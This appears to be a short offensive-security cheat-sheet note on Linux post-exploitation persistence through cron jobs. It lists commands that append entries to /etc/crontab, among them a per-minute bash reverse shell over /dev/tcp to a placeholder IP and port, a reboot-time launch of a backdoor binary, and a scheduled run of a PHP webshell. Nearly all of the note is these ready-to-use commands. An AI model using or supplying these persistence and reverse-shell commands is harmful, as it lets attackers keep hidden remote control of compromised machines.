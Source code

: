 # Cron Jobs

## 01 - Usage

- Open an editor via crontab

`$ sudo crontab -e`

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ echo "* * * * * <commands>" | crontab -

$ crontab -l
```

## 02 - Callback Shells

- Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/elf_backdoor" >> /etc/crontab
```

- Webshell backdoor

`$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab`

---
## References

- [[Linux Post Exploitation Persistence References]]

- [Crontab GURU](https://crontab.guru)